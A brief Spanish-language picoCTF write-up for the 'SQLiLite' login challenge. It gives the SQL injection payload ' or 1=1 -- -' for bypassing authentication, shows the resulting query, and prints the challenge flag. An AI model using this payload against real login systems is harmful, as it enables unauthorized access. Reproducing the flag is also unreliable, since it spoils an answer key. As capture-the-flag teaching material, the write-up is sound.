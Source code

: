 # SQLiLite

## Descripción


## Solución
- Can you login to this website? Try to login [here](http://saturn.picoctf.net:62051/).

- Se trabaja con SQL Injections, simplemente hay que poner ' or 1=1 -- -' y cualquier contraseña para acceder. "SQL query: SELECT * FROM users WHERE name='admin' or 1=1 -- -' AND password='123456'". Se verá logueado, pero no se encuentra la bandera, inspeccione el código fuente de la página.

picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}